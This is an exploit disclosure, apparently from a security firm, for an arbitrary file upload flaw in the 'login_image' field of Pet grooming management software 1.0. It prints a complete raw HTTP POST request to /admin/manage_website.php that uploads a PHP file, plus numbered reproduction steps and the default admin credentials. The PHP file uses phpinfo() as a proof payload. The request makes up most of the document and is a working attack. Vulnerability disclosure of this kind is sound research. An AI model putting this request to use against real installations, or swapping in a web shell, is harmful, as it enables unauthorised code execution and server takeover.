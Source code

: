 

# Pet grooming management software  - 'login_image' Arbitrary File Upload

#### Exploit Title: Pet grooming management software - Arbitrary File Upload

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: [https://www.sourcecodester.com](https://www.sourcecodester.com/)

#### Software Link:https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

#### Version: Pet grooming management software 1.0

#### Tested on: Windows 10, Apache ,Mysql

#### Description

The pet grooming management software has a vulnerability in uploading arbitrary files. In the 'manage_website.php' file, due to insufficient filtering of file suffixes, attackers can exploit this vulnerability to gain server privileges by uploading malicious files.

#### Payload used:

```POST /login.php HTTP/1.1
POST /admin/manage_website.php HTTP/1.1
Host: 192.168.67.28:8021
Accept-Encoding: gzip, deflate
Origin: http://192.168.67.28:8021
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynrYRiaBMmUAHonyv
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.28:8021/admin/manage_website.php
Cookie: PHPSESSID=nn7i1gq9g3c5789ch9hgs6nogg
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 3656

------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="deduct"

1
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="title"

Pet Grooming Billing Software
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="currency_symbol"

₹
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_login_image"

Pets_Logo.png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="login_image"; filename="111.php"
Content-Type: text/plain

<?php phpinfo(); ?>
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_website_image"

Pets_Logo.png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="website_image"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_favicon"

favicon_pet.png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="favicon"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_qr"

dumm_qr(1).png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="qr"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="footer"

Pet Grooming Billing Software
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="term"

<h4>1. <strong>Appointments &amp; Timings</strong></h4><p>Clients must arrive on time for scheduled appointments.</p><p>A delay of more than 15 minutes may result in rescheduling.</p><p>Walk-ins are accepted based on availability.</p><h4>2<strong>. Health &amp; Vaccinations</strong></h4><p>Pets must be up to date with vaccinations (especially Rabies).</p><p>We reserve the right to refuse service if a pet shows signs of illness, infection, or aggressive behavior.</p><p>The client must inform us of any medical conditions, allergies, or behavioral issues.</p><h4>3. <strong>Grooming Safety</strong></h4><p>We use safe, pet-friendly grooming products and tools.</p><p>In case of extreme matting, hair may need to be shaved to avoid injury.</p><p>We are not liable for any pre-existing conditions or issues arising from matting, skin problems, or aggressive behavior.</p><h4>4. <strong>Emergency Care</strong></h4><p>In the event of an injury or health concern during grooming, we will attempt to contact the owner immediately.</p><p>If needed, the pet may be taken to the nearest veterinary clinic at the owner's expense.</p><h4>5. <strong>Cancellations &amp; No-Shows</strong></h4><p>Please provide at least 24 hours’ notice for cancellations.</p><p>No-shows or last-minute cancellations may incur a fee.</p><h4>6. <strong>Photographs</strong></h4><p>We may take photos of pets after grooming for promotional use on our website or social media unless the client requests otherwise.</p><h4>7. <strong>Payment Terms</strong></h4><p>Full payment is required upon completion of grooming.</p><p>Prices may vary depending on breed, size, coat condition, and service duration.</p>
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_sign"

images (1).png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="sign"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="btn_web"


------WebKitFormBoundarynrYRiaBMmUAHonyv--

```

#### Proof of Concept

1、Log in to the system using the default password mdkhairnar92@gmail.com: admin

2、Upload the file and capture the package at the avatar upload location

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/page2.png)

3、Modify the login_image to the PHP malicious file we are about to upload

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpayload-website.png)

4、After sending the request packet, the file can be accessed on the page, and the PHP file has been parsed, displaying information related to PHPINfo.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadfile2.png)

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpage2.png)

5、Pet-grooming-management-software

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/code-loginimage.png)
